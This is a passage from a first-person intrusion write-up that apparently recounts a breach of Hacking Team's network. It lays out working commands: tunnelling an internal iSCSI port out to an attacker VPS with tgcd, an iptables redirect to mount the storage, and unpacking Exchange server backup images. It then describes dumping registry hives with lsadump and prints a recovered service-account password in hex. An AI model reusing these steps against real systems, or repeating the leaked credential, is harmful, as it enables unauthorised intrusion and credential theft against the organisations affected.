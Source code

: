 iSCSI needs a kernel module, and it would've been difficult to compile it for
the embedded system. I forwarded the port so that I could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

Now iSCSI finds the name iqn.2000-01.com.synology but has problems mounting it
because it thinks its IP is 192.168.200.72 instead of 127.0.0.1

The way I solved it was:
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

And now, after:
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...the device file appears! We mount it:
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find backups of various virtual machines. The Exchange server seemed like
the most interesting. It was too big too download, but it was possible to
mount it remotely to look for interesting files:
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

so the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
we find the hard disk of the VM, and mount it:
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and finally we've unpacked the Russian doll and can see all the files from
the old Exchange server in /mnt/part1

[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf


## --[ 10 - From backups to domain admin ]-----------------------------------------

What interested me most in the backup was seeing if it had a password or hash
that could be used to access the live server. I used pwdump, cachedump, and
lsadump [1] on the registry hives. lsadump found the password to the besadmin
service account:

_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........
